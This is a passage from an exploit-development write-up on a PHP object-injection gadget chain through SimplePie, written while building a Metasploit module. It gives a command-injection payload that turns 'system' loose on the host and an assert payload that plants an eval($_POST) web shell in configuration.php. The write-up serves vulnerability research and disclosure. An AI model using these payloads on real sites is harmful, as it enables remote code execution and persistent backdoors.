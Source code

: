 For each value in the `disconnectHandlers` array a `call_user_func_array()` is performed with a reference to the object (`&$this`) as a parameter. It’s a good gadget, but we only have control over the function call and not on parameters. That’s where `SimplePie` object came in our help.

In `SimplePie::init` (declared in `libraries/simplepie/simplepie.php`) we have different interesting gadgets, like the following:

![img](/notes/images/rusty/5.png)


This is much more suitable, because we have a `call_user_func` with both function and parameter values under our control.
However, that’s why I think the original payload wasn’t working, there is a condition that must be met in order to receive this line of code: `$this->cache` must be declared and `$parsed_feed_url[‘scheme’]` (the parsed url from $feed_url) needs to contain something.
Bypassing this condition was not so difficult. At first, with `cache_name_function` set to `system`, something like `https://something/;id` was enough. The first command fails but the semicolon do the rest.

However, while developing the Metasploit module, I was not so happy about this solution. If the target environment have disabled functions like `system`, `exec`, `shell_exec`, etc., you cannot do a lot with this exploit, and I wanted to make something more suitable for more environments.
So, I moved back to the assert function and see if I could achieve the PHP code execution while respecting the condition. The only think the condition is checking for is a string that contains a valid schema (e.g. `http://` ), but this will cause a syntax error. In order to bypass it we can chain an OR (||) statement and trap the schema into a variable, like this:

```php
<PHP CODE> || $a="http//";
```

We were limited again against some special characters (like `?`) and from the `assert` function, so we need a way to move on a less restrictive environment. The first idea was to create a php file in the root directory with an `eval()`, but without the `?` the web server will not interpret our code. A `configuration.php` file is present in the root directory. It is nothing more than a class declaration with configuration parameters in it. We can append an eval at the end of this file and use it to execute PHP code with the following payload:

```php
 file_put_contents('configuration.php','if(isset($_POST[\\\'test\\\'])) eval($_POST[\\\'test\\\']);\', FILE_APPEND) || $a=\'http://wtf\';
```

That will result in the following call:

```php
call_user_func("assert","file_put_contents('configuration.php','if(isset($_POST[\\\'test\\\'])) eval($_POST[\\\'test\\\']);\', FILE_APPEND) || $a=\'http://wtf\';")
```
At the end, this is the final object:

